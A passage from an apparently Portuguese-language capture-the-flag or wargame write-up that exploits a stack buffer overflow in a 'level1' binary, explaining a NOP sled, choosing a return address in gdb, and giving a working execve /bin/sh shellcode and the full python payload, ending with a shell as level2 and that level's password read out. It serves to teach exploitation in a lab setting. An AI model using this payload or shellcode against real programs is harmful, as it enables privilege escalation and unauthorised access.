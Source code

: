 Para pôr essa técnica em prática, ao invés de milhares de B's, encheriamos a
string com \x90 que é o hex da instrução NOP. A instrução NOP (No Operation) é
válida, mas não faz nada. Se o processador encontrar um NOP ele apenas irá para
a próxima instrução. Com isso, passaríamos para EIP um endereço mais ou menos no
meio da nossa string do mal, então, caso a localização dela se alterasse um
pouco, EIP ainda poderia apontar para um dos NOPs da nossa string. E,
encontrando um desses NOPs, o programa não iria ser finalizado dando erro,
apenas iria sair "deslizando" pelos NOPs até o nosso shellcode, que será
posicionado no final da string.

Voltando ao gdb, usei o comando x/400x $esp para encontrar mais ou menos onde
estaria localizado a metade dos 1036 B's. Resolvi usar o endereço 0xbffff830.

Certo. Já sabemos quantos bytes são necessários para corromper o endereço de
retorno da função e agora sabemos para onde queremos que ele aponte. O último
passo é colocar o shellcode na memória e pôr nosso programa para executa-lo.

O shellcode que escolhi fica com a tarefa de executar /bin/sh:
{% highlight js %}

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc2\xb0\x0b\xcd\x80

{% endhighlight %}
O google é seu amigo. Caso queira entender que porra é essa aí em cima,
não será difícil encontrar informações. Não seja um kiddie que só executa as
coisas que um tutorial manda :p

Então o código em python que explora level1 evoluiu disso aqui:
{% highlight js %}

python -c 'print "B"*1036 + "R"*4'

{% endhighlight %}
Para isso:
{% highlight js %}

python -c 'print "\x90"*1015 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc2\xb0\x0b\xcd\x80" + "\x30\xf8\xff\xbf"'

{% endhighlight %}
As mudanças foram: substitui os B's por \x90, que formarão o NOP sled. Subtrai
21 dos 1036, pois 21 é o tamanho em bytes do meu shellcode que segue logo depois
dos NOPs. E adicionei o endereço que quero que EIP aponte: 0xbffff830 que, por
causa da little endian (google it), precisa ser inserido com os bytes em ordem 
invertida (bf ff f8 30 vira 30 f8 ff bf).

Então é hora da verdade. Sai do gdb e executei a seguinte linha de comando:
{% highlight js %}

./level1 $(python -c 'print "\x90"*1015 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc2\xb0\x0b\xcd\x80" + "\x30\xf8\xff\xbf"')

{% endhighlight %}
Instantaneamente, vi meu prompt mudar de level1@rzt-bin01 para um módico $.
Foi só usar o comando whoami para ter certeza.
{% highlight js %}

$ whoami
level2
$ cat /home/level2/.pass
byBicmVubm9yZHMgZWggbyBtZWxob3I=

{% endhighlight %}
Pwned ;D
